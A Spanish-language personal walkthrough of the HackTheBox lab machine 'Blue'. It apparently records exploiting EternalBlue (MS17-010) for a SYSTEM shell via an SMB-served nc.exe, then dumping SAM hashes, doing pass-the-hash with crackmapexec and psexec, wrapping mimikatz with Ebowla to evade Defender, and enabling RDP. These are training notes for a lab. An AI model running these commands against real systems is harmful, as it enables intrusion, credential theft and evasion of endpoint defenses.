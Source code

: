 # Blue

Tags: [[_cve]],[[_persistenceTechniques]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">135</span> - RPC.
<span style="color:#ff669c">139</span> - NetBios.
<span style="color:#ff669c">445</span> - SMB. <span style="color:#379075">Windows 7</span>.
Y <span style="color:#07b4f2">más desde</span> el <span style="color:#ff669c">49152</span> en <span style="color:#07b4f2">adelante</span>.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">445</span>.
Vemos que es un<span style="color:#ff2dc0"> Windows 7</span>, <span style="color:#07b4f2">probemos</span> si es vulnerable al <span style="color:#ff2dc0">Eternal Blue</span>.
<span style="color:#88c425">nmap --script="vuln and safe" -p445 10.10.10.40  -oN EBscan</span>:    <span style="color:#ff2dc0">vulnerable</span>.

<span style="color:#88c425">Clonamos</span> https://github.com/worawit/MS17-010
<span style="color:#88c425">python checker.py 10.10.10.40</span> :    con <span style="color:#ecacb6">python2.7</span> 
<span style="color:#07b4f2">No detecta</span> <span style="color:#ff2dc0">named pipes</span>, pero si <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">script</span> y ponemos<span style="color:#ecacb6"> USERNAME = 'guest'</span> sí funciona.

<span style="color:#07b4f2">Usamos</span> el <span style="color:#ecacb6">42315.py</span>, es el que <span style="color:#07b4f2">está</span> en <span style="color:#ff2dc0">searchsploit</span>, <span style="color:#379075">y lo metemos en el directorio MS17-010</span>.
<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ecacb6">42315.py</span>
<span style="color:#ff2dc0">Comentamos</span> y <span style="color:#ff2dc0">descomentamos</span> lo <span style="color:#07b4f2">importante</span>.
![[Pasted image 20241208105113.png]]

Creamos un <span style="color:#ff2dc0">recurso compartido a nivel de red</span>, <span style="color:#07b4f2">ofreciendo</span> el <span style="color:#ecacb6">nc.exe</span>
Nos ponemos en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto</span> especificado.
Ejecutamos el <span style="color:#ff2dc0">script</span>
<span style="color:#88c425">python 42315.py 10.10.10.40</span> :    y pa deeentro.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">nt authority\system</span> debido a que al <span style="color:#ff2dc0">explotar</span> el <span style="color:#ff2dc0">Eternal Blue</span>, se gana <span style="color:#07b4f2">acceso</span> como el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">privilegiado</span>.

Fin.

<span style="color:#bef202">EXTRA</span>.
<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Obtener</span> <span style="color:#ff2dc0">Hashes NTLM</span>.
En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">reg save HKLM\sam sam.backup</span>
<span style="color:#88c425">reg save HKLM\system system.backup</span>

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
Creo un <span style="color:#ff2dc0">recurso compartido</span> a nivel de red <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">SMB</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me los</span> <span style="color:#ff2dc0">transfiero</span>.

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#88c425">impacket-secretsdump -sam sam.backup -system system.backup LOCAL</span>
![[Pasted image 20241208125302.png]]

<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa</span> :    <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver</span> <span style="color:#ff2dc0">credenciales</span> en <span style="color:#ff2dc0">texto claro</span>.

<span style="color:#88c425">impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc</span> :    <span style="color:#ff2dc0">conectarme</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">psexec</span> 


<span style="color:#ecacb6">2.-</span><span style="color:#ff2dc0"> Dumpear credenciales </span><span style="color:#07b4f2">de</span> la <span style="color:#ff2dc0">memoria</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#ff2dc0">Ebowla</span> para <span style="color:#07b4f2">eludir</span> el <span style="color:#ff2dc0">Defender</span>.
Clonamos https://github.com/Genetic-Malware/Ebowla
<span style="color:#88c425">mv mimikatz.exe Ebowla</span>
<span style="color:#88c425">cd Ebowla</span>
<span style="color:#88c425">vim genetic.config</span>
<span style="color:#ecacb6">output_type = GO</span>
<span style="color:#ecacb6">payload_type = EXE</span>

<span style="color:#ecacb6">[[ENV_VAR]]</span> :    hay que <span style="color:#07b4f2">ponerlas bien</span>, porque <span style="color:#07b4f2">se toman</span> las <span style="color:#ff2dc0">variables de entorno</span> de la <span style="color:#07b4f2">propia</span> <span style="color:#ff2dc0">máquina</span> para lograr <span style="color:#07b4f2">subir</span> el <span style="color:#ff2dc0">archivo</span> deseado.
Con <span style="color:#07b4f2">estas</span> son <span style="color:#07b4f2">suficientes</span>.
![[Pasted image 20241208132242.png]]

Necesita <span style="color:#ecacb6">python2</span>, hago
<span style="color:#88c425">cp -r /home/joelkami/Documentos/HTB/Maquinas/Blue/content/Ebowla .</span> :    <span style="color:#07b4f2">lo llevo a</span> mi <span style="color:#ff2dc0">entorno virtual</span>.
<span style="color:#88c425">pip install configobj</span> :    lo necesita.
<span style="color:#88c425">apt install mingw-w64</span> :    lo necesita.

<span style="color:#88c425">python ebowla.py mimikatz.exe genetic.config</span> 
<span style="color:#88c425">./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe</span>
<span style="color:#88c425">ls output/final_mimi.exe</span> :    ya lo podríamos <span style="color:#ff2dc0">subir</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">final_mimi.exe</span> :    entramos a una <span style="color:#ff2dc0">sesión interactiva</span>.
<span style="color:#88c425">privilege::debug</span>
<span style="color:#88c425">sekurlsa::logonPasswords</span>
Y podríamos <span style="color:#07b4f2">ver</span> las <span style="color:#ff2dc0">credenciales</span> en <span style="color:#07b4f2">claro</span>.


<span style="color:#ecacb6">3.-</span> <span style="color:#ff2dc0">Habilitar</span> y <span style="color:#ff2dc0">conectarnos</span> <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">RDP</span>.
<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable</span> :    usamos un <span style="color:#ff2dc0">módulo</span> de <span style="color:#ff2dc0">crackmapexec</span> para <span style="color:#07b4f2">habilitar</span> el <span style="color:#ff2dc0">RDP</span>.

<span style="color:#88c425">rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'</span> 


<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">Persistence</span> (<span style="color:#379075">intrusive</span>).
En <span style="color:#ecacb6">Vulnerabilidades y Temas/Persistence Techniques/Persistence CheatSheets</span> <span style="color:#07b4f2">tenemos</span> distintas <span style="color:#07b4f2">vías</span>.
